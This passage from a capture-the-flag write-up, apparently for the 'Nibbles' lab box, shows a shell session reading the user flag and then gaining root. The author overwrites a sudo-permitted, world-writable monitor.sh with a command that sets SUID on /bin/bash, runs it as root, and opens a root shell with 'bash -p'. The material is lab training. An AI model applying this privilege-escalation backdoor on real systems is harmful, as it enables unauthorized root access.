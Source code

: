 ```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls /home
nibbler

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls /home/nibbler
personal.zip  user.txt

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt
24f0d22e3e80b38a****************
```

# PrivEsc

Listing Nibbler’s sudoers permissions reveals that we can run a monitor.sh script as root.

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Decompressed the ZIP file located in our home’s directory. The script is modifiable for us.

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh

nibbler@Nibbles:/home/nibbler$ ls -l personal/stuff/
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Let’s create a simple backdoor.

```
nibbler@Nibbles:/home/nibbler$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > /home/nibbler/personal/stuff/monitor.sh

nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh

nibbler@Nibbles:/home/nibbler$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```

And read the root flag. GGs!

```
nibbler@Nibbles:/home/nibbler$ /bin/bash -p

bash-4.3# whoami
root

bash-4.3# cat /root/root.txt
dc751712f6cd4675****************
```